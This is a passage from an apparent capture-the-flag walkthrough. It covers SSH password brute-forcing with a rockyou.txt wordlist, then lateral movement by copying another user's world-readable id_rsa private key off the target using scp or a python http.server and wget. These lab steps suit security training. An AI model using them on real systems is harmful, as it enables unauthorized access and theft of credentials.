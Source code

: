 `-l` fixed username, not a wordlist (`-L` for a wordlist)

`-P` password list, not static password (`-p` for static password)

`rockyou.txt` the standard password dictionary that comes with kali

`ssh://$IP` the target

Waiting a few seconds [REDACTED] user's password is found! We can now `ssh` into the system.

---

### Horizontal Escalation

We're now in the box but are limited by our permissions on it and we don't have anything that really catches our eye in our home directory.
We can `cd` into the other user's home directory and spot a `pass.bak` that is not readable to us (yet).
However in listing the files, I quickly notice that [REDACTED]'s `.ssh` is readable by everyone. Navigating into that directory reveals that his `id_rsa` is readable by everyone and so is his `authorized_keys`

```
drwxr-xr-x 2 [REDACTED]  [REDACTED] 4096 Apr 23  2018 .ssh

---

-rw-rw-r-- 1 [REDACTED] [REDACTED]  771 Apr 23  2018 authorized_keys
-rw-r--r-- 1 [REDACTED] [REDACTED] 3326 Apr 19  2018 id_rsa
-rw-r--r-- 1 [REDACTED] [REDACTED]  771 Apr 19  2018 id_rsa.pub
```

All we have to do is `scp` or `wget` that file to ourselves (I do not recommend `cat`ing it and copying)
To `scp` the file we do the following:

```shell
scp [REDACTED]@$IP:/home/[REDACTED]/.ssh/id_rsa .
```

Or to use `python`

On the victim

```shell
cd /home/[REDACTED]/.ssh && python3 -m http.server 9999
```

And then on our machine

```shell
wget http://$IP:9999/id_rsa
```

And to complete either step:

```shell
chmod 600 id_rsa
```
